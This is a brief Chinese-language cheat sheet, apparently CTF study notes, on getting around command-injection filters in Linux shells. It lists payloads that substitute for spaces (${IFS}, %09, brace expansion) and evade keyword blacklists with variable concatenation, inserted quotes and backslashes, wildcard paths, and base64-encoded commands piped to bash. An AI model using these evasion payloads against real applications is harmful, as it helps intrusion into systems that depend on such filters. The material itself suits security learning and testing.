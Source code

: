在linux系统中 有一些通配符

- 匹配任何字符串／文本，包括空字符串；
- `*`代表任意字符（0个或多个)
- `?` 匹配任何一个字符（不在括号内时）?代表任意1个字符
- [abcd] 匹配abcd中任何一个字符
- [a-z]  表示范围a到z，表示范围的意思 []匹配中括号中任意一个字符

---


# 空格绕过

> `>` `<` `<>` 重定向符
> `%09`(需要php环境)
> `${IFS} `
> `$IFS$9` 
> `{cat,flag.php}`  //用逗号实现了空格功能
> `%20 `
> `%09 `



---

# 黑名单绕过

拼接

>   `a=c;b=at;c=fl;d=ag;$a$b $c$d`

 base64编码

> `echo "Y2F0IGZsYWc="|base64 -d`
> `echo "Y2F0IGZsYWc="|base64 -d|bash`   (在bash被过滤的情况下可尝试sh)

单引号、双引号

> `c""at fl''ag`

反斜线

> `c\at fl\ag`

正则 (假设/bin/cat: test: 是一个目录)

>`/???/?[a][t] ?''?''?''?''`
>`/???/?at ????`
>`/???/?[a]''[t] ?''?''?''?''`


 $1、$2等和$@

 ```
$# 是传给脚本的参数个数
$0 是脚本本身的名字
$1 是传递给该shell脚本的第一个参数
$2 是传递给该shell脚本的第二个参数
$@ 是传给脚本的所有参数的列表
$* 是以一个单字符串显示所有向脚本传递的参数，与位置变量不同，参数可超过9个
$$ 是脚本运行的当前进程ID号
$? 是显示最后命令的退出状态，0表示没有错误，其他表示有错误

 ```
